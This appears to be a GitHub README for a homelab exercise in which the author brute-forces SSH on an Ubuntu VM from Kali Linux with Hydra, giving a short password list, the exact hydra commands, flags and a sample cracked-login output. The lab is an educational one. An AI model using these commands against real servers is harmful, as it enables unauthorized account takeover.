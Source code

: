 # 🔐 Hydra SSH Brute-Force Attack (Homelab Project)

This project demonstrates how to use **Hydra** from **Kali Linux** to perform a brute-force attack on an Ubuntu Server over SSH. It is strictly for educational purposes and should only be used in your own lab setup.

---

## 🧱 Lab Setup

| Role     | OS         | IP Address        |
|----------|------------|-------------------|
| Attacker | Kali Linux | 192.168.92.10     |
| Target   | Ubuntu     | 192.168.92.11     |

---

## ✅ Requirements

- Hydra tool (`sudo apt install hydra`)
- SSH enabled on the Ubuntu target
- Password list file (`passwords.txt`)
- Username to test (e.g. `sapna`)

---

## 🔹 Step-by-Step Guide

### 🔸 Step 1: Install Hydra

```bash
sudo apt update
sudo apt install hydra -y
```

---

### 🔸 Step 2: Confirm SSH is Running on Target

Run this on the Ubuntu Target (192.168.92.11):

```bash
sudo systemctl start ssh
sudo systemctl enable ssh
```

Check status:

```bash
sudo systemctl status ssh
```

---

### 🔸 Step 3: Test SSH from Kali (optional)

```bash
ssh sapna@192.168.92.11
```

If it asks for password, SSH is working fine.

---

### 🔸 Step 4: Create Password File

On Kali:

```bash
nano passwords.txt
```

Add:

```
123456
sapna123
admin
1234
toor
password
```

Save with `Ctrl + O`, exit with `Ctrl + X`

---

### 🔸 Step 5: Run Hydra Command

```bash
hydra -l sapna -P passwords.txt ssh://192.168.92.11
```

If you want slow, safe brute-force:

```bash
hydra -l sapna -P passwords.txt -t 1 ssh://192.168.92.11
```

> `-l` → single username  
> `-P` → password file  
> `ssh://` → attack via SSH  
> `-t 1` → 1 connection at a time (slow but safer)

---

### 🔸 Step 6: Output Example

If the password is found, you’ll see:

```
[22][ssh] host: 192.168.92.11   login: sapna   password: 1234
```

🎉 Success! You cracked the password using Hydra.

---

## ⚠️ Warnings

- Use only in your lab or on systems you own.
- Never attack any public or unauthorized server.
- This project is only for learning cybersecurity.

---

## 👩‍💻 Author

Sapna Baranwal  
Cybersecurity Intern | Red Team Enthusiast

---

## 📸 Screenshots

### ✅ Hydra Installation on Kali
![Hydra Install](screenshots/install_hydra.png)

### ✅ Successful SSH from Kali to Ubuntu
![SSH Login](screenshots/kali_ssh_working.png)
